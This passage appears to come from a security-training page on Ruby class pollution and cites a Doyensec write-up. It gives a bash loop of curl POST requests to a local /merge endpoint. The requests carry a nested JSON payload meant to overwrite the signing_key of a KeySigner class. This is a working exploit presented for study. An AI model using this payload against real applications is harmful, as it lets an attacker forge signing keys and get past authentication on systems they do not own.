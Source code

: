 ### **Poisoning Other Classes**

With this payload:

```bash
for i in {1..1000}; do curl -X POST -H "Content-Type: application/json" -d '{"class":{"superclass":{"superclass":{"subclasses":{"sample":{"signing_key":"injected-signing-key"}}}}}}' http://localhost:4567/merge --silent > /dev/null; done
```

It's possible to brute-force the defined classes and at some point poison the class **`KeySigner`** modifying the value of `signing_key` by `injected-signing-key`.\

## References

- [https://blog.doyensec.com/2024/10/02/class-pollution-ruby.html](https://blog.doyensec.com/2024/10/02/class-pollution-ruby.html)

{{#include ../../banners/hacktricks-training.md}}

